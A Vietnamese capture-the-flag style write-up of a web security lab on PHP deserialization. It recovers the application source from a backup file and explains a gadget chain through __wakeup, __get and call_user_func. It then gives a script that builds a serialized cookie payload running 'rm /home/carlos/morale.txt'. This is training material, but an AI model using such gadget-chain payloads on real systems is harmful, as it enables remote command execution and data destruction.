





# Writeup LAB Developing a custom gadget chain for PHP deserialization

## Goal
To solve the lab, delete the morale.txt file from Carlos's home directory.
## Khai thác
Đăng nhập với tư cách người dùng `wiener`

Lịch sử HTTP Burp như các thử thách trước thì ở session dính lỗ hổng giải tuần tự hóa không an toàn

Giải mã URL Cookie được set:
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2emxrNmc1d21oa3Vucmd1ODFieXY0OHN4bTAydm85biI7fQ==
```
Giải mã base64 encode:
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vzlk6g5wmhkunrgu81byv48sxm02vo9n";}
```
Chúng ta thực hiện recon xung quanh ứng dụng thây được `<!-- TODO: Refactor once /cgi-bin/libs/CustomTemplate.php is updated -->`
Thực hiện truy cập `/cgi-bin/libs/CustomTemplate.php~` xem mã nguồn ứng dụng 

Thực hiện phân tích chi tiết mã nguồn
```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```
Về cơ bản nhìn qua tôi thấy được điều đặc biệt nó sử dụng magic `__wakeup()` và đặc biệt trong PHP điều đó là tối kỵ bởi vì nó được gọi tự động trong quá trình giải mã dữ liệu <br>
Vì vậy khi PHP giải mã cookie nó sẽ gọi `build_product()` và phương thức `build_product()` nó sẽ khởi tạo đối tượng `Product()` tham chiếu đến 2 thuộc tính `default_desc_type` và `desc` <br>
Sau đó nó se gọi phương thức `call_user_func()` hàm này sẽ thực thi bất kỳ hàm nào được truyền vào thông qua `DefaultMap->callBack`. Hàm sẽ được thực thi trên `$name` đối tượng không tồn tại mà yêu cầu người gửi. Và với những chi tiết trên chúng ta có thể xây dựng tải trọng <br>
> Gọi phương thức `system(rm /home/carlos/morale.txt)` thông qua magic `__get()` trong lớp `DefaultMap` <br>
Tải trọng :
```php
<?php
class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new DefaultMap("system");
        $this->default_desc_type = $desc_type;
    }
}
class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}
$CustomTemplate = new CustomTemplate("rm /home/carlos/morale.txt");
$payload = serialize($CustomTemplate);
echo "[+] Base64 Encoded Payload: " . base64_encode($payload) . "\n";
// [+] Base64 Encoded Payload: TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjM6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo2OiJzeXN0ZW0iO31zOjc6InByb2R1Y3QiO047fQ==
```
Dán cookie vào trình duyệt và gửi yêu cầu POST
